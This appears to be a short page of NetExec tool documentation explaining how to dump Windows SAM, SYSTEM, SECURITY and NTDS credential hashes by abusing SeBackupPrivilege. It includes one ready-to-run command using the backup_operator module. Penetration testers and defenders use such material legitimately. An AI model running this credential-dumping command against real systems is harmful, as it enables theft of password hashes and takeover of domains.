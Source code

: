 # Dump SAM, SYSTEM, SECURITY, NTDS with SeBackupPrivilege 

### Dump hashes using with BackupOperators 

{% hint style="warning" %}
You don't need to local admin privilege on the remote target if you are in SeBackupPrivilege
{% endhint %}

```bash
nxc smb <ip> -u username -p password -M backup_operator
```

![image](https://github.com/user-attachments/assets/88d5aa2d-4369-4dac-815f-1dbe80b12ad6)
